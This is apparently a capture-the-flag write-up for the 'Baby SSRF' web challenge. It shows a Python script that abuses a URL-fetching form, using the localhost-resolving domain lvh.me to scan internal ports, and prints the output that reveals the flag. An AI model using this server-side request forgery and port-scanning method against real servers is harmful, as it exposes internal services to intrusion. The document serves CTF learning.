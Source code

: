 # Baby SSRF

**Date:** 09, June, 2021

**Author:** Dhilip Sanjay S

**Category:** Web

---

- The `request page` in the website had a text box which accepted any valid URL.
- On submitting, it was fetching and displaying the headers of the request made to website.
- So, we must access some internal local server to get flag. (SSRF!)
- And the hint says `for i in range(5000,10000)`
- So, our flag must available in any of the headers of the following local ports.
- To redirect to localhost:
    - Use `lvh.me` (or) 
    - Develop a custom server and combine it with `ngrok`

## Exploit

```py
#! /usr/bin/python3

import requests

url = "http://web.zh3r0.cf:1111/request"
payloadURL = "http://lvh.me" # Redirects to localhost
req = requests.session()

for port in range(5000,10000):
	data = {"url" :  payloadURL + ":{}".format(str(port))}
	print("[+] Trying Port {}".format(str(port)))
	
	r = req.post(url, data)
	if "zh3r0" in r.text:
		print(r.text)
		break
```

- Run the exploit

```bash
./exploit.py

[..snip..]
[+] Trying Port 9000
[+] Trying Port 9001
[+] Trying Port 9002
[+] Trying Port 9003
[+] Trying Port 9004
[+] Trying Port 9005
[+] Trying Port 9006
<!DOCTYPE html>
<html>
<head>
        <title>Request</title>
</head>
<link rel="stylesheet" type="text/css" href="hacker.css">
<body>
        <form action="/request" method="POST">
                <input type="text" name="url">
                <input type="submit" name="sub" value="sub">
        </form>
        {&#39;Date&#39;: &#39;Wed, 09 Jun 2021 09:41:02 GMT&#39;, &#39;Server&#39;: &#39;Apache/2.4.41 (Ubuntu)&#39;, &#39;FLag&#39;: &#39;zh3r0{SSRF_0r_wh4t3v3r_ch4ll3ng3}&#39;, &#39;Content-Length&#39;: &#39;0&#39;, &#39;Keep-Alive&#39;: &#39;timeout=5, max=100&#39;, &#39;Connection&#39;: &#39;Keep-Alive&#39;, &#39;Content-Type&#39;: &#39;text/html; charset=UTF-8&#39;}
<br>
          
</body>
</html>
```

## Flag

zh3r0{SSRF_0r_wh4t3v3r_ch4ll3ng3}

---